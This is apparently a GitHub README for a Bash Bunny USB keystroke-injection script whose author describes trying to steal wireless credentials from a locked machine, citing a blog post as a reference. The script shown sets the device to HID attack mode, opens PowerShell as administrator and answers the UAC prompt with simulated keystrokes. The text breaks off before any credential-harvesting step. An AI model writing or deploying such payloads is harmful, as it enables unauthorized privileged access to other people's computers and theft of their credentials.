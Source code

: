 # BashBunny-Script-6
In this I am creating a Bash Bunny Script to hack the credentials from a locked machine
In this script I wanted to try and hack the wireless credentials form a locked machine through bash bunny

I took the reference from the below link


https://blog.didierstevens.com/2017/04/06/quickpost-using-my-bash-bunny-to-snag-creds-from-a-locked-machine/


I tried with the script below 


# Source bunny_helpers.sh to get the environment
source bunny_helpers.sh

# Set language accordingly ( Here I have set it to US English)
Q SET_LANGUAGE US

ATTACKMODE HID STORAGE

LED B 200

#Launch Powershell As Admin
Q GUI r
Q DELAY 100
Q STRING powershell Start-Process powershell
Q ENTER

# Bypass UAC
Q DELAY 3000
Q ALT y
Q ENTER
Q DELAY 500
